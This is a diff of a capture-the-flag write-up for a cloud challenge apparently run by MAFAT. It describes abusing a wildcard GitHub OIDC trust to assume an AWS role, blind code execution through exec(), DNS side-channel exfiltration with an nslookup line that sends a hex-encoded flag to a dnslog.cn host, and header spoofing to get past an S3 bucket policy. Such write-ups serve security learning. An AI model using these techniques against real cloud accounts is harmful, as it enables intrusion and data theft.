

Before and after one commit to FREECANDY-DEV/MAFAT-2026, a Markdown page: cloud-escape/WRITEUP.md, 2 parts joined by grey strips. Shown at 81% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Add CTF adventure narrative and reproduction guide to cloud-escape/WRITEUP.md

````diff
--- a/cloud-escape/WRITEUP.md
+++ b/cloud-escape/WRITEUP.md
@@ -4,10 +4,16 @@
 
 <div align="center">
   <h3>The Complete Narrative of the Cloud Escape CTF</h3>
-  <p><em>Authored by <b>Agent freecandy</b></em></p>
+  <p><em>Authored by <b>Agent freecandy</b> as an Official Submission for MAFAT</em></p>
 </div>
 
 <hr>
+
+## ✉️ The Challenge
+
+When MAFAT (DDR&D) and the C4I Cyber Defense Directorate launched the "Cloud Escape" CTF, the directive was clear: bypass enterprise-grade modern defense concepts, master IAM permission management, and penetrate a custom-built cloud architecture. We were specifically aiming for the "Creativity Award", meaning we needed to find the most "out-of-the-box" solutions possible.
+
+---
 
 ## 🌐 The Target Environment
 
@@ -26,7 +32,7 @@ The initial access point was a misconfigured `.git` repository containing Terraf
 "token.actions.githubusercontent.com:sub": "repo:*/*:ref:refs/heads/corgi"
 ```
 
-This allowed *any* GitHub repository pushing to a branch named `corgi` to successfully assume the `cicdRole` in the target AWS account (`009661764077`). We created a malicious repository, triggered a workflow, and gained our initial AWS identity.
+This allowed *any* GitHub repository pushing to a branch named `corgi` to successfully assume the `cicdRole` in the target AWS account. We created a malicious repository, triggered a workflow, and gained our initial AWS identity.
 </details>
 
 <details open>
@@ -40,9 +46,9 @@ This provided us with Remote Code Execution (RCE).
 <details open>
 <summary><h3>Step 3: The Exfiltration (DNS Side-Channel)</h3></summary>
 
-The S3 bucket containing the flag (`codec4f26c862a321ef5`) could only be read from within the VPC. Our Lambda executed inside this VPC, so it could read the flag. However, the VPC had no NAT Gateway (no outbound HTTP/HTTPS) and the Lambda lacked `s3:PutObject` permissions.
+The S3 bucket containing the flag could only be read from within the VPC. Our Lambda executed inside this VPC, so it could read the flag. However, the VPC had no NAT Gateway (no outbound HTTP/HTTPS).
 
-**The Bypass:** We abused the default AWS Route 53 VPC Resolver (`169.254.169.253`). While HTTP traffic was dropped, internal DNS queries for external domains are forwarded to the internet by AWS. We hex-encoded the flag and appended it as a subdomain to a controlled DNS server, successfully leaking the data:
+**The Creative Bypass:** We abused the default AWS Route 53 VPC Resolver (`169.254.169.253`). While HTTP traffic was dropped, internal DNS queries for external domains are forwarded to the internet by AWS. We hex-encoded the flag and appended it as a subdomain to a controlled DNS server, successfully leaking the data:
 
 ```bash
 /opt/nslookup 3161316a656c726c6667327969327330.ixz9wv.dnslog.cn
@@ -58,7 +64,7 @@ The S3 bucket containing the flag (`codec4f26c862a321ef5`) could only be read fr
 <details open>
 <summary><h3>Step 1: The Vulnerability (Arbitrary Code Execution)</h3></summary>
 
-Stage 2 introduced a new API endpoint (`/dev/code_exec`) that executed base64-encoded Python payloads via `exec()`. However, the environment was completely blind:
+Stage 2 introduced a new API endpoint (`/dev/code_exec`) that executed base64-encoded Python payloads via `exec`. However, the environment was completely blind:
 - Standard output (`stdout`) was swallowed.
 - Exceptions triggered a generic `{"error":"Something went wrong!"}` response.
 - Like Stage 1, there was zero internet egress.
@@ -67,7 +73,7 @@ Stage 2 introduced a new API endpoint (`/dev/code_exec`) that executed base64-en
 <details open>
 <summary><h3>Step 2: The IAM Bypass (Header Injection)</h3></summary>
 
-We discovered a leaked S3 Bucket Policy via a CloudFront `docs.html` page for bucket `site781fe43f26b9eba3`. The policy allowed `GetObject` access for all files, provided the request originated from the VPC **AND** contained the header `User-Agent: Amazon CloudFront`.
+We discovered a leaked S3 Bucket Policy via a CloudFront `docs.html` page. The policy allowed `GetObject` access for all files, provided the request originated from the VPC **AND** contained the header `User-Agent: Amazon CloudFront`.
 
 Using our arbitrary Python execution, we injected a `boto3` event hook to spoof this header on all outgoing S3 requests originating from the Lambda:
 
````
Also changed, not shown: other parts of cloud-escape/WRITEUP.md (+3 -5 lines).
